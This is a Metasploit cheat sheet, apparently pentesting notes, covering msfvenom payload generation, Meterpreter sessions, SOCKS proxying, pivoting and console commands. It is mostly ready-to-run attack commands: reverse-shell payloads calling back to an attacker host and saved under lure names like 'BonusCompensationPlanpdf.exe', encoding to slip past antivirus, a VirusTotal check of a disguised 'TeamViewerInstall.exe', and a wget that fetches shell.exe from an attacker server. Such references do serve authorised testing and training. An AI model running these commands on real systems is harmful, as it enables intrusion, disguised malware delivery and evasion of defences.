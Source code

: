 # Metasploit

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**Metasploit Project**</mark> is a Ruby-based, <mark style="color:purple;">**modular penetration testing platform**</mark> that enables you to write, test, and execute the exploit code. This exploit code can be custom-made by the user or taken from a database containing the latest already discovered and modularized exploits. The <mark style="color:green;">`Metasploit Framework`</mark> includes a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection. At its core, the <mark style="color:green;">`Metasploit Project`</mark> is a collection of commonly used tools that provide a complete environment for penetration testing and exploit development. Files usually located at <mark style="color:green;">`/usr/share/metasploit-framework`</mark>.

* **What is MS Module?** A module is a piece of software that the Metasploit Framework uses to perform a task, such as exploiting or scanning a target. A module can be an exploit module, auxiliary module, or post-exploitation module.

## <mark style="color:yellow;">ARCHITECTURE</mark>

1. <mark style="color:blue;">**Auxiliary**</mark> - Any supporting module, such as scanners, crawlers and fuzzers.
2. <mark style="color:blue;">**Encoders**</mark> - Will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them.
3. <mark style="color:blue;">**Evasion**</mark> - While encoders will encode the payload, they should not be considered a direct attempt to evade antivirus software. On the other hand, “evasion” modules will try that, with more or less success.
4. <mark style="color:blue;">**Exploits**</mark> - Exploits, neatly organized by target system.
5. <mark style="color:blue;">**NOPs**</mark> - <mark style="color:blue;">`(No Operation code)`</mark> Keep the payload sizes consistent across exploit attempts.
6. <mark style="color:blue;">**Payloads**</mark> - Payloads are codes that will run on the target system.
7. <mark style="color:blue;">**Post**</mark> - Post modules would be useful in post-exploitation.

## <mark style="color:yellow;">MSFVENOM</mark>

<mark style="color:red;">**Msfvenom**</mark> is a tool that is part of the Metasploit framework and it is a command line <mark style="color:purple;">**tool for generating different types of payloads for exploiting**</mark>**.** In addition to providing a payload with flexible delivery options, MSFvenom also allows us to **encrypt & encode** payloads to bypass common anti-virus detection signatures.

#### **List Payloads**

```bash
msfvenom -l payloads
```

#### **Building a Stageless Payload for Linux**

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=13.13.13.13 LPORT=443 -f elf > createbackup.elf
```

#### **Building a Stageless Payload for Windows**

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=13.13.13.13 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

### <mark style="color:blue;">Staged vs Stageless Payloads</mark>

<mark style="color:blue;">**`Staged`**</mark>**&#x20;payloads create a way for us to send over more components of our attack.** So if more simply, the whole payload has few stages, first to get connection and others to load additional programs

<mark style="color:blue;">**`Stageless`**</mark>**&#x20;payloads do not have a stage.** So all payload and programs are loaded at first time.

## <mark style="color:yellow;">METERPRETER</mark>

<mark style="color:blue;">**`The Meterpreter`**</mark> payload is a specific type of multi-faceted payload that uses `DLL injection` to ensure the connection to the victim host is stable, hard to detect by simple checks, and persistent across reboots or system changes. Meterpreter resides completely in the memory of the remote host and leaves no traces on the hard drive, making it very difficult to detect with conventional forensic techniques.

### <mark style="color:blue;">Encoder</mark>

* **Generating Payload - With Encoding**

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

* **List Encoders**

```bash
msf6 exploit(windows/smb/goose) > show encoders
```

* **MSF - VirusTotal**

```bash
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```

### <mark style="color:blue;">Sessions</mark>

#### **Listing Active Sessions**

```bash
msf6 exploit(windows/smb/goose) > sessions
```

#### **Interacting with a Session**

```bash
msf6 exploit(windows/smb/goose) > sessions -i 1
```

#### **Getting shell**

```bash
msf6 exploit(windows/smb/goose) > shell
```

#### **Background session**

```bash
meterpreter > background
OR
Ctrl+Z
OR
meterpreter > bg
```

#### **Killing session**

```bash
msf6 exploit(windows/smb/goose) > sessions -k 1
```

#### **Listing Running Jobs**

```bash
msf6 exploit(multi/handler) > jobs -l
```

#### **Run an Exploit as a Background Job**

```bash
msf6 exploit(multi/handler) > exploit -j
```

## <mark style="color:yellow;">MAKING PROXY</mark>

<pre class="language-bash"><code class="lang-bash"><strong># Configuring 
</strong><strong>msf6 > use auxiliary/server/socks_proxy
</strong>msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
msf6 auxiliary(server/socks_proxy) > run
# Confirming proxy is running
auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy
</code></pre>

## <mark style="color:yellow;">PIVOTING</mark>

### <mark style="color:blue;">Autoroute</mark>

<mark style="color:red;">**Autoroute**</mark> is used in penetration testing to enable <mark style="color:purple;">**network pivoting**</mark>, allowing attackers to route traffic through a compromised host to access internal **subnets** that are not directly reachable. This facilitates reconnaissance, exploitation, and lateral movement within isolated or segmented networks.

```bash
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > set SUBNET 13.13.13.0
msf6 post(multi/manage/autoroute) > run
meterpreter > run autoroute -s 13.13.13.0/23
meterpreter > run autoroute -p # list active routes
```

### <mark style="color:blue;">Local Port-Forwarding</mark>

```bash
meterpreter > portfwd add -l 1234 -p 4321 -r 13.13.13.13
# Forward all packets on 1234 port to 4321 port on 13.13.13.13 host
```

### <mark style="color:blue;">Remote Port-Forwarding</mark>

```bash
meterpreter > portfwd add -R -l 1234 -p 4321 -L 13.13.13.13
# Forward all packets from 4321 port on 13.13.13.13 to our local 1234 port
```

## <mark style="color:yellow;">USEFUL MSFCONSOLE COMMANDS</mark>

#### **Specific Search**

```bash
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```

#### **Get more info about module**

```bash
info
```

#### **Permanent Target Specification**

```bash
msf6 exploit(windows/smb/amogus) > setg RHOSTS 13.13.13.13
```

#### **Show and Set Target for exploit**

```bash
msf6 exploit(windows/browser/goose) > show targets
...
msf6 exploit(windows/browser/goose) > set target 3
```

#### **Searching for Specific Payload**

```bash
msf6 exploit(windows/smb/goose) > grep meterpreter grep reverse_tcp show payloads
```

#### **Use Local Exploit Suggester**

```bash
msf6 > search local exploit suggester
```

#### **Ping Sweep**

```bash
run post/multi/gather/ping_sweep RHOSTS=13.13.13.0/23
```

## <mark style="color:yellow;">LIFEHACKS</mark>

* Use wget -o parameter when you want to install revshell file into machine like:&#x20;

```
wget http://13.13.13.13:1337/shell.exe -o shell.exe
```
